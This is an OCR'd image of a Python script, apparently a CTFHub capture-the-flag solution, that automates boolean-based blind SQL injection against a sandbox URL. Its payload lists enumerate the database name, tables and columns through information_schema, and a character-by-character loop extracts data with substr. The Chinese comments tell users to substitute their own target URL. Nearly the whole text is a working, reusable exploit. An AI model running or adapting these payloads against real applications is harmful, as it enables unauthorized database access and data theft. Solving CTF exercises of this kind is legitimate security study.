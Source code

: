 ```python
                break

    def getData(self):
        name = ''
        for j in range(1, self.name_length + 1):
            for i in 'abcdefghijklmnopqrstuvwxyz}{0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ':
                url = self.url + self.payload_Data % (j, i)
                r = requests.get(url + '%23')
                if 'query_success' in r.text:
                    name = name + i
                    print(name)
                    break
        print(self.name+":"+name)


if __name__ == '__main__':
	#  换成自己的url
    url = "http://challenge-d8bcb765b7ab40a6.sandbox.ctfhub.com:10800/?id=1"
    # 注意修改payload中数据库名、表名等数据
    payloads_length = [
        # 0.数据库的长度
        " and length(database())>%s",
        # 1.表的数量
        " and (select count(table_name) from information_schema.tables where table_schema='sqli')>%s",
        # 2.开始猜解flag表的字段数
        " and (select count(column_name) from information_schema.columns where table_name='flag')>%s"
    ]
    payloads_Data = [
        # 0.数据库的名称：
        " and substr(database(),%d,1)='%s'",
        # 1.第一张表的名称：
        " and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),%d,1)='%s'",
        # 2.第二张表的名称：
        " and substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),%d,1)='%s'",
        # 3.字段名称
        " and substr((select column_name from information_schema.columns where table_name='flag'),%d,1)='%s'",
        # 4.flag：
        " and substr((select * from sqli.flag where id=1),%d,1)='%s'"
    ]
    names = [
        "数据库名",
        "表名1",
        "表名2",
        "字段名",
        "flag"
    ]
    conditions = 'query_error'
    conditions2 = 'query_success'
    name_length = 32  #数据长度
    #  想测什么换下下标就行
    injesql = InjeSql(url=url, payload_length=payloads_length[0], payload_Data=payloads_Data[4], name=names[3], name_length=name_length, conditions=conditions)
    # injesql.getLength() # 测长度
    injesql.getData()  # 测数据
```
